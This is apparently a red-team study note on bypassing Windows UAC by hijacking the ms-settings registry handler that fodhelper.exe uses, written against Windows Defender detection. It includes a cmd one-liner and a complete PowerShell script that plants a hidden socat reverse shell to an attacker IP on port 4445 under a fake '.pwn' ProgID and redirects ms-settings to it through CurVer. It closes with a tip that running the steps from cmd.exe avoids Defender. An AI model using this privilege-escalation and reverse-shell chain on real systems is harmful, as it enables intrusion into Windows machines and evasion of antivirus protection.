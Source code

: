 But adding a quick query to the offending registry value right after setting it to the command required for our reverse shell, we still get alerted by Windows Defender, and a second later, the offending registry value gets deleted as expected.

Right after setting the registry value, **we need the command to run quickly:**

```C

Same command as the above but at the last command add:

reg add %REG_KEY% /d %CMD% /f & reg query %REG_KEY% & fodhelper.exe
```

However, the problem is it's basically a race between you and the Antivirus see who gets first making this exploit unreliable.

![Bypassing UAC-15.png](/img/user/cards/red-team/images/Bypassing%20UAC-15.png)

It works (not shown) but Windows Defender still detects it, another thing is it gives little room for variation, as we need to write specific registry keys to trigger it, making it easy for Windows Defender to detect.
### Modified fodhelper exploit
---
Instead of writing our payload into `HKCU\Software\Classes\ms-settings\Shell\Open\command`, we will use the `CurVer` entry under a progID registry key. This entry is used when you have multiple instances of an application with different versions running on the same system, this allows to point to the default version of the application to be used by Windows when opening a given file type.

The idea is still the same we are still hijacking how Windows opens `ms-settings:` via the registry. But instead of directly changing the `command` under `ms-settings`, you **redirect `ms-settings` to a fake file type** (your own `.pwn`), and put your payload **there**.

```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

Notice the `.pwn` in the registry path — this is a **custom ProgID** we create. Normally, `fodhelper.exe` looks for the `ms-settings` ProgID to determine what command to run when opening `ms-settings:` URLs.

But we set a `CurVer` value under `ms-settings` that **points to our `.pwn` ProgID** instead. This tells Windows, to dont use `ms-settings` handler -- use my `.pwn` instead.

However, it stills gets detected by Windows Defender but the good thing is AV software are implemented strictly against the published exploit, doing the same thing in `cmd.exe` no alert from Defender.
